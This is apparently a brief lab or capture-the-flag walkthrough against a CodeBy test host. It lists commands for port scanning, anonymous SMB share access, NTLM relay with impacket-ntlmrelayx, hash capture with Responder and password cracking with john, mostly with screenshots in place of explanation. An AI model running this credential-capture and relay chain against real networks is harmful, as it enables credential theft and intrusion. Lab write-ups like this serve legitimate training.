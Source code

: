 dddd

```
nmap -sT -sV 192.168.2.10 -p- -v -sC   
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51a14674-777b-4d0b-af75-8fa1dafbb111)

```
smbmap -H 192.168.2.10 -u "guest" -p "" -d codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9614c6dd-1708-4ce1-ba8c-d8f31e30c194)
```
smbclient -no-pass //192.168.2.10/Files-for-checkers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ac244dec-07a4-4de4-8c10-7660ac6cb37a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b3e7b5b1-a533-4e9e-9c8a-f0e0e53ec1a3)

```
impacket-ntlmrelayx -t 192.168.2.10  -smb2support -debug  
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a984c248-c211-4e67-8ca4-c3d99cd73c36)

https://pentestlab.blog/tag/smb-relay/

https://xakep.ru/2023/04/07/ntlm-relay-guide/#toc04.2

```
sudo responder -wd -I eth0
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cdbe0d6-b20f-477e-abd0-acd2923370f5)

```
john --wordlist=/home/kali/PAYLOADS/rockyou.txt hash_pass.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ced3007d-f8a7-4737-8bad-9dee47deb159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e216110c-dd36-4911-826a-9bbb3a9e54b2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f16b6da8-76f4-4340-a34f-fa898db1179c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f74c3a4b-9d74-4460-a305-db0363889c3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d6fa22e4-c734-43e5-bb3f-a9c65a51d086)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e909d3ab-97fd-43c7-a5a7-b2c0663d73ea)



